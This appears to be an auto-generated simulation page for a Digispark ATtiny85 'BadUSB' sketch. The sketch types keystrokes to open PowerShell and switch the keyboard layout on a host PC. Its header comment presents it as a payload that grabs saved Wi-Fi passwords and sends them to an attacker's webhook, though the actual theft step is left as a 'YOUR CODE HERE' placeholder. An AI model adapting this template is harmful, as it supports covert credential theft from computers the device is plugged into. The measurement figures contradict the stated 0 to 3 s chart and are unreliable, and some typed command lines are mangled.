
This sketch was run on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. Parts: output pins drawn as LEDs (lit = HIGH).

Above: at 0.05 s.
Timing chart, 0 to 3.0 s (numbered marks = the images above):


The sketch:

KeyboardInit.ino.ino
```cpp
/*
  Following payload will grab saved Wifi password and will send them to your hosted webhook.
*/

#include "DigiKeyboard.h"

void setup() {
  pinMode(1, OUTPUT); //LED on Model A
}

void loop() {
  // Open PowerShell
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.println("powershell");
  DigiKeyboard.delay(1000);

  //Stores current keyboard / lang settings and forces it to en-us
  //If you want to handle an additional language, just type the next command with your keyboard and choose en-us layout
  DigiKeyboard.println("$a = Get-WinUserLanguageList");
  DigiKeyboard.delay(500);
  DigiKeyboard.println("$a ) Get/WinUserLanguageList");
  DigiKeyboard.delay(500);
  DigiKeyboard.println("Set/WinUserLanguageList /force @en/us@");
  DigiKeyboard.delay(500);
  DigiKeyboard.println("Set-WinUserLanguageList -force 'en-us'");
  DigiKeyboard.delay(500);


// YOUR CODE HERE


  // Restores language settings
  DigiKeyboard.println("Set-WinUserLanguageList -force $a");
  DigiKeyboard.delay(500);
  DigiKeyboard.println("exit");


  while(true){
  digitalWrite(1, HIGH); //turn on led when program finishes
  DigiKeyboard.delay(500);
  digitalWrite(1, LOW);
  DigiKeyboard.delay(500);
  }

}
```

Measured:
- by itself, PB1 (LED_on_Model_A): LOW → HIGH at 4.4 s, → LOW 0.50 s later, → HIGH 0.50 s later, → LOW 0.50 s later, … (252 changes in this stretch)
